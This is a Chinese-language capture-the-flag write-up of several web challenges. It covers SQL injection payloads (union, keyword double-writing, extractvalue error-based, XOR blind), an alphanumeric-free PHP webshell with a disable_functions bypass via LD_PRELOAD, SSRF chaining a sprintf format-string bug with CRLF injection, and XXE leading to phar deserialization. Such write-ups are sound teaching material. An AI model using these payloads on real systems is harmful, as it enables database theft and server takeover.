

这个比赛没有报，不过环境开挺久的，赛后借着buu的环境和比赛环境做一下
EasySQL
直接万能密码登陆即可获得flag
1 | ?username=admin%27or%201%23&password=123 |
LoveSQL
上一关改进了一下
同样万能密码登陆
flag看样子在数据库中，既然有回显就直接联合查询注入即可，最后的payload：
1 | ?username=0%27%20union%20select%201,(select%20password%20from%20l0ve1ysq1%20where%20username=%27flag%27),3%23&password=123 |
BabySQL
打开靶机
再一次进阶，按照有回显，我们可以通过报错信息，判断后台将关键字or，by，union，select，from，where替换为空，都可以通过双写绕过
最后的payload：
1 | ?username=0'%20uunionnion%20sselectelect%201,(sselectelect%20group_concat(passwoorrd)%20ffromrom%20b4bsql%20wwherehere%20username='flag'),3%23&password=123 |
HardSQL
这关直接黑名单过滤了如下关键字：
1 | 空格%20，/**/，and，||，&&，=，substr，mid |
可以通过如下payload进行登陆：
1 | ?username=admin'^0%23&password=123 |
但是没有信息回显，只提示登陆成功，但是依然有报错信息，所以可以考虑使用extractvalue进行报错注入
爆表payload：
1 | ?username=admin'-extractvalue(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)in(database())),0x3a))%23&password=123 |
过滤了等号=，用in语句来替代，过滤空格，再查询语句注意使用()
最后爆flag的payload：
1 | ?username=admin'-extractvalue(1,concat(0x3a,(select(left(password,30))from(H4rDsq1)),0x3a))%23&password=123 |
因为substr被过滤了，所以用right和left分别向右和向左截取flag的30个字符，最后拼接成flag
FinalSQL
打开靶机：

测试发现登陆把能输入的关键字几乎都过滤了，注入点应该在新加入的search.php?id=1
search.php过滤了如下关键字：
1 | 空格%20，/**/，and，||，&&，# |
虽然过滤了注释符，但是测试发现id是数字型，并且没有被单引号包裹，例如我们输入?id=1^0：
返回的是id=1的查询结果
输入?id=1^1：
返回则是id=0，即无查询结果
并且测试发现，当出现语法错误时，只会出现信息ERROR!!!，所以，这关只能通过异或^来进行布尔盲注
exp如下：
1 | import requests |
RCE me
1 |
|
无数字字母RCE，长度40的限制，老样子通过不可见字母异或得到_GET，并传入多参数，如下payload执行phpinfo()
1 | ?code=$_=${%a0%b8%ba%ab^%ff%ff%ff%ff}{_}();&_=phpinfo |
disable_functions禁用了如下函数：
主要就是禁用了命令执行函数
要执行读文件函数就要传入参数，那么嵌套传入一个参数：
1 | ?code=$_=${%a0%b8%ba%ab^%ff%ff%ff%ff};$_{_}($_{%ff});&_=readfile&%ff=/etc/passwd |
直接读取/flag文件失败，那么尝试执行var_dump(scandir('/'))：
1 | ?code=$_=${%a0%b8%ba%ab^%ff%ff%ff%ff};$_{%a0}($_{_}($_{%ff}));&%a0=var_dump&_=scandir&%ff=/ |
发现有个/readflag执行文件，那么/flag文件很显然就是不可读的，需要我们绕过disable_functions执行/readflag
disable_functions没有禁用error_log，那么就直接LD_PRELOAD劫持进程执行命令
那么这里就需要上传so文件到/tmp下，一开始尝试使用file_put_contents('/tmp/hack.so','')，把so文件内容进行url编码后传入get参数，但是会发现get传参超出了长度限制
那如果用POST传参，则会出现不可见字符参数名传不到POST中的情况
所以就简便的方法还是getshell后用菜刀或蚁剑连接上传，那么我们就得想办法通过eval，但是eval在这里我们执行通过不可见字符进行运算构造，由于eval在php中是一个语言结构，所以构造出来的eval是不能作为动态函数执行的，所以我们只能考虑构造assert
payload：
1 | ?code=$%ff=%9e%8c%8c%9a%8d%8b^%ff%ff%ff%ff%ff%ff;$%ff(${%a0%b8%ba%ab^%ff%ff%ff%ff}{_});&_=phpinfo() |
那么，用assert进行getshell，我们只能通过菜刀进行连接，并且传入POST参数
1 | ?code=$%ff=%9e%8c%8c%9a%8d%8b^%ff%ff%ff%ff%ff%ff;$%ff(${%a0%af%b0%ac%ab^%ff%ff%ff%ff%ff}{_}); |
然后，我们就可以上传so文件了
最后执行：
1 | putenv("LD_PRELOAD=/tmp/hack.so") & error_log('',1) |

然后在/tmp下就生成了我们执行/readflag后的结果写入的文件了：
最后读取flag：
服务端检测系统
源码提示：
1 | <!-- /admin.php --> |
代码的大致意思是需要我们进行ssrf访问admin.php，得到admin.php中的内容
可以看到关键代码中用了stream_context_create和file_get_contents来模拟HTTP请求
我们可以通过访问自己的vps来测试一下：
1 | url=http://106.15.250.162:8888/admin.php&method=GET |
返回的内容部分在变量$body中，我们看看最后的输出部分的代码：
1 | echo sprintf("body length of $method%d", $body); |
是通过sprintf函数对$body进行%d的替换，但是$body即页面返回的内容是字符串类型，所以正常替换肯定是为0
但是可以注意到%d前面还有一个变量$method，这个变量我们是可控的，所以我们就可以利用sprintf函数格式化字符串的漏洞来输出内容，payload：
1 | url=http://127.0.0.1/admin.php&method=%s% |
为什么%s后面还要加个%呢，测试一下其实就知道了：
正是由于sprintf函数的特性：%后的字符都会被当作匹配的类型而被吃掉，也就是说%%d就被当作字符%d输出
然后我们就得到了admin.php的源码部分，很显然需要我们POST参数iwantflag=yes来得到最后的flag
所以，我们就需要通过前面提到的stream_context_create和file_get_contents来构造POST请求，还是通过method参数，测试可以发现method参数可以是任意值
那么，就可以考虑利用CRLF漏洞构造任意请求包，payload：
1 | url=http://106.15.250.162:8888/admin.php&method=POST /admin.php HTTP/1.1 |
vps上监听：
把vps地址替换成题目本地的127.0.0.1，传入payload
但是因为sprintf的问题，还是需要我们通过前面的方法得到最后的内容：
1 | url=http://127.0.0.1/admin.php&method=POST /admin.php HTTP/1.1 |
你读懂潇文清的网站了吗
题目直接告诉我们是xxe
抓包修改Content-Type:application/x-www-form-urlencoded
有回显，直接payload打：
1 |
|

发现存在过滤，测试过滤了：http，data，flag，file
但是php未被过滤，所以用伪协议读源码：
1 |
|
读取得到index.php源码：
1 |
|
发现存在config.php文件，同样道理读取该文件源码
1 |
|
发现类File的魔术方法__wakeup可以读取flag.php内容，该文件只有一个类，没有实例化的代码
扫目录发现存在一个upload.php
再读一下upload.php源码：
1 |
|
可以上传文件，但是没有反序列化函数，那么就考虑通过xxe进行phar反序列化，生成phar：
1 |
|
上传的过滤主要一处：
1 | if (($filetype!="image/jpg")&&(substr($filename, strrpos($filename, '.')+1))!= 'jpg') { |
修改Content-Type:image/jpg即可绕过
最后index.php处传入payload：
1 |
|
base64解码获得flag